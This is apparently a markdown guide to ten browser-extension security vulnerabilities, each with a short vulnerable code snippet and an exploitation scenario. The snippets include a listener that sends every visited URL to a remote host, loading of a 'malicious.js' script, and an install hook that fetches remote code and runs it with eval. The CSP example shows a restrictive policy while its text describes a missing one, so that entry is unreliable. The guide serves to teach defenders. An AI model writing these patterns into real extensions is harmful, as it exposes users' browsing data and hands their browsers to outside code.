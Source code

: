 # Browser Extension Security Vulnerabilities
This document outlines common security vulnerabilities found in browser extensions and provides examples of how attackers can exploit these vulnerabilities.
## 1. Permissions Overreach
Vulnerable Code Example:
```json
{
  "manifest_version": 2,
  "name": "My Extension",
  "permissions": [
    "tabs",
    "http://*/*",
    "https://*/*",
    "storage"
  ]
}
```
Exploitation Scenario:
An extension with broad permissions can access all tabs and browsing data. If the extension is compromised, an attacker can capture sensitive information from any website the user visits, including passwords and personal data.
## 2. Data Leakage
Vulnerable Code Example:
```javascript
chrome.tabs.onUpdated.addListener((tabId, changeInfo, tab) => {
  if (changeInfo.status === 'complete') {
    fetch('http://example.com/track', {
      method: 'POST',
      body: JSON.stringify({ url: tab.url })
    });
  }
});
```
This code can leak user URLs to a remote server.
Exploitation Scenario:
An extension sending the URLs of all visited pages to a remote server can inadvertently leak sensitive information, especially if users visit banking or personal sites.
## 3. Cross-Site Scripting (XSS)
Vulnerable Code Example:
```javascript
let userInput = document.getElementById('input').value;
document.getElementById('output').innerHTML = userInput; // No sanitization
```
Exploitation Scenario:
User inputs can execute scripts in the page's context. An attacker could inject scripts that steal cookies, session tokens, or sensitive data.
## 4. Insecure Communication
Vulnerable Code Example:
```javascript
fetch('http://example.com/api/data')
```
Exploitation Scenario:
Data sent over insecure HTTP can be intercepted by attackers on the same network, allowing them to capture sensitive information, such as tokens or personal data.
## 5. Code Injection
Vulnerable Code Example:
```javascript
let script = document.createElement('script');
script.src = 'http://example.com/malicious.js';
document.body.appendChild(script);
```
Exploitation Scenario:
If an attacker controls the script URL, they can inject malicious code into the page, leading to data theft or manipulation of the page’s functionality.
## 6. Malicious Updates
Vulnerable Code Example:
```javascript
chrome.runtime.onInstalled.addListener(() => {
  fetch('http://example.com/update-script.js')
    .then(response => response.text())
    .then(eval); // Potentially unsafe
});
```
Exploitation Scenario:
If the update mechanism is compromised, attackers can push malicious code to users without their knowledge, potentially gaining control over their browsers.
## 7. Third-Party Dependencies
Vulnerable Code Example:
```json
{
  "dependencies": {
    "vulnerable-lib": "1.0.0"
  }
}
```
Exploitation Scenario:
An extension relying on outdated third-party libraries may become vulnerable if those libraries have known security flaws that attackers can exploit.
## 8. Lack of Content Security Policy (CSP)
Vulnerable Code Example:
```json
{
  "manifest_version": 2,
  "name": "My Extension",
  "content_security_policy": "default-src 'self'"
}
```
Exploitation Scenario:
Without a strong CSP, attackers can inject untrusted content, increasing the risk of XSS and other attacks that manipulate the extension’s behavior.
## 9. Insecure Storage
Vulnerable Code Example:
```javascript
localStorage.setItem('token', 'my-secret-token'); // No encryption
```
Exploitation Scenario:
If an attacker gains access to the local storage, they can easily retrieve sensitive information, such as tokens or user credentials, leading to unauthorized access.
## 10. Insufficient Privacy Controls
Vulnerable Code Example:
```json
{
  "manifest_version": 2,
  "name": "My Extension",
  "description": "A cool extension with no privacy policy."
}
```
Exploitation Scenario:
Users may be unaware of how their data is being collected or used, leading to potential abuse of their information without consent or awareness.
